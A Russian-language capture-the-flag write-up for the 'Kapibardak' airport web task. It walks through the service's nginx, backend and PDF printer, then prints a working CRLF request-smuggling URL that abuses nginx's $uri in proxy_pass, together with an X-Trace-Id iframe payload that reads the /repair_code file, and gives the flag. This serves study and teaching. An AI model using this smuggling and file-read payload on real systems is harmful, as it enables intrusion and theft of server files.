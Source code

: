 # Капибардак


### Описание

Вас приветствует аэропорт Капибаровска.

И он уже два часа не принимает и не отправляет самолеты из-за взлома: рейсы и время на табло перепутаны, багажная лента стоит, нервозность растет.

Добудьте код и запустите восстановление системы.

Сайт аэропорта: t-bedlam-d0dw3v3n.spbctf.org/

Исходный код: bedlam_7b22be3.tar.gz

## Решение

### Изучение работы сервиса

Скачиваем сорцы bedlam_7b22be3.tar.gz, разархивируем и видим:

```
$ tree    
.
└── bedlam
    ├── backend
    │   ├── Dockerfile
    │   ├── gunicorn.conf.py
    │   ├── main.py
    │   └── req.txt
    ├── docker-compose.yaml
    ├── nginx
    │   ├── internal.conf
    │   ├── nginx.conf
    │   └── static
    │       ├── booking.html
    │       ├── css
    │       │   └── style.css
    │       ├── favicon.png
    │       ├── index.html
    │       ├── js
    │       │   ├── booking.js
    │       │   └── main.js
    │       ├── logo.png
    │       └── repair.html
    ├── printer
    │   ├── Dockerfile
    │   └── src
    │       ├── package.json
    │       ├── pdf.js
    │       ├── server.js
    │       ├── ticket.tmpl
    │       └── tickets
    └── repair_code

```

Запускаем **docker compose**, изучаем сорцы, как работает сервис. Видим архитектуру сервиса.

![](img/app.png)

1) Пользователь обращается к сервису, развернутому за **nginx reverse proxy**, который обслуживает статический контент (HTML + JS). После заполнения формы для генерации PDF-билета, клиент отправляет запрос на эндпоинт **/ap**i.

2) Сервис **nginx** содержит конфигурацию для локации **/api**, которая перенаправляет запросы через проксирование на внутренний — **internal-balancer**.

```
location /api {
    proxy_set_header Host backend;
    proxy_pass http://internal-balancer$uri;
}
```
3) Сервис **internal-balancer** это nginx реверс прокси, который обслуживает два сервиса **printer** и **backend**. Клиентский запрос с **host=internal-balancer** и **uri=/api** попадает в сервис **backend**.
4) Сервис **backend** принимает входящие данные, нормализирует их, добавляет и митигирует параметры, затем выполняет запрос в **internal-balancer** на ендпоинт **/generate**

```
r = requests.post(
    "http://internal-balancer/generate",
    headers={"X-Trace-Id": str(uuid4())},
    data=data,
)
```

Также стоит обратить внимание на добавление заголовка **X-Trace-Id**

5) В свою очередь, сервис **print** выполняет создание PDF документа по **.tmpl** шаблону.


### Где находится флаг

Сам флаг находится в переменной окружения **${FLAG}**, которая будет прочитана микросервисом **backend** при POST-запросе на **/repair_panel**, где в теле сообщение передается **code=** который должен совпадать с кодом из файла **repair_code**:

```py
@app.route("/repair_panel", methods=["POST"])
def repair_panel():
    user_code = request.json.get("code")
    with open("/repair_code") as f:
        instruction = f.read()
        code = re.search(r'code: ([A-z0-9_-]{14,36})\.', instruction)
        if user_code == code.group(1):
            FLAG = os.getenv("FLAG")
            return jsonify({"message": f"System restored: {FLAG}"}), 200
        else:
            return jsonify({"error": f"Code is incorrect."}), 400
```

![](img/repair_code.png)

При этом, файл **repair_code** смонтирован в обоих сервисах: **backend** и **print**. Ключевая задача, прочить файл **repair_code**

### Моделирование угроз


#### Local File Inclusion

В первую очередь в глаза бросается шаблонизация при печати PDF документа и заголовок **X-Trace-Id**.


```js
export async function generateBoardingPass(boardingPassData) {
    
    const filePath = path.join(path.resolve(''), 'ticket.tmpl');
    const template = hbs.compile(fs.readFileSync(filePath, 'utf8'));
    const boardingPassTemplate = template(boardingPassData);
```

```html
<div style="opacity: .2;">X-Trace-Id: {{ trace traceId }}</div>
```

Локально в качестве отладки, меняя шаблон и проведя несколько тестов с различными пейлодами и пересобрав приложение, получается выполнить **LFI**, где в **X-Trace-Id** передается пейлод. Узвимость подтверждена, но если передать **X-Trace-Id** в сервис **backend**, то он будет перезаписан. Нужен способ, как байпаснуть митигации в **backend** микросервисе, **либо обойти его** и сделать запрос в **printer**.

```html
<iframe src="file:///repair_code">
```

#### HTTP Request Smuggling

Изучаем конфиги **nginx** и **load-balancer**, находим паттерн миссконфигурации которая может приводить к **HTTP Request Smuggling** используеся **CRLF** атаку. Сервис **nginx** имеет конфиг:

```
location /api {
    proxy_set_header Host backend;
    proxy_pass http://internal-balancer$uri;
}
```

**$uri** - это встроенная переменная **nginx**, которая содержит **URI** запроса (без параметров, начинается с **/**), **$uri** обычно используется при создании перенаправлений в конфигурации **Nginx**, что приводит к внедрению **CRLF**. 


### Эксплуатация

Пробуем подобрать пейлод, чтобы выполнить **HTTP Request Smuggling**, при этом, нужно создать валидный запрос со всеми обязательными параметрами для печати PDF документа:

```
https://<host>/api/%252e%252e/generate%20HTTP/1.0%0D%0AHost%3A%20printer%0D%0AX-Trace-Id%3A%20%3Ciframe%20src%3D/repair_code%20height%3D999%3E%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2093%0D%0A%0D%0Apassenger%3Da%26flight_number%3Db%26date%3Dc%26seat%3Dd%26from%3De%26to%3Df%26departure%3Dg%26arrival%3Dh%26gate%3Di%26terminal%3Dj
```

![](img/payload.png)

В итоге получаем билет в котором будет содержимое **/repair_code**

![](img/ticket.png)

Получем флаг: tctf{WoW_You_WON_yOUR_Gold3n_ticKE7_T0_7he_plANe}

![](img/flag.png)

